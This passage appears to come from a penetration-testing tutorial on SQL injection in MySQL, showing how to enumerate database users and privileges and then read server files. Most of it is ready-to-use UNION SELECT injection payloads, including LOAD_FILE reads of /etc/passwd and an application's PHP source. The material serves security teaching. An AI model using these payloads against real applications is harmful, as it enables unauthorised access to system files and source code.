 Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```
```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

#### User Privileges
```sql
SELECT super_priv FROM mysql.user
```
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.
## LOAD_FILE
```sql
SELECT LOAD_FILE('/etc/passwd');
```
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
## Another Example
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```